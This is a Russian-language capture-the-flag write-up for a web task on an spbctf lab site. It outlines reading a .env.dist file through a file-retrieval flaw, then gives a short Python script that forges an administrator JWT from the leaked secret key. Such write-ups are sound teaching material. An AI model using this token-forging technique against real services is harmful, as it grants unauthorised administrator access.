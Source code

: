 #hard #web #JWT #FS

#### Задача

| Вводные   | Материалы                                                                                                                                                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Исходники | Исходники бекенда сайта: [brethren.tar.gz](./assets/brethren.tar.gz)                                                                                                                                                            |
| Сайт      | https://t-brethren-y25eg5ir.spbctf.org                                                                                                                                                                                          |
| Условие   | Студенческое капибратство «Тета Каппа» устроило испытание для первокурсников: они должны похитить билеты к экзаменам с сервера института.<br><br>Подмените их на другие — вымышленные. Не только же студентам можно дурачиться! |
| Статус    | 🟢 Решено после CTF                                                                                                                                                                                                             |

#### Решение

- Через уязвимость в получение файлов достаем .env.dist
- Из .env.dist достаем SECRET_KEY и на его основе генерим JWT с админсским доступом
- Под админом дергаем апиху на получение флага

#### Код генерации JWT

```python
from jose import jwt

SECRET_KEY = "713c50ce0a4902af7571debb36dd14abd95a45c9104b299b1f91afd52f356e47"
ALGORITHM = "HS256"

payload = {
"exp": "1745341191",
"iat": "1745254791",
"user_id": "faf49c98-0cab-4af4-b917-b0c96a710938",
"username": "admin_kek",
"is_admin": True,
}

token = jwt.encode(payload, SECRET_KEY, algorithm=ALGORITHM)
print(token)
```

#### Скрины

![](./assets/image-9.webp)

![](./assets/image-10.webp)


![](./assets/image-2.webp)

![](./assets/image-3.webp)

![](./assets/image-4.webp)

![](./assets/image-5.webp)

![](./assets/image-6.webp)

![](./assets/image-7.webp)

![](./assets/image-8.webp)


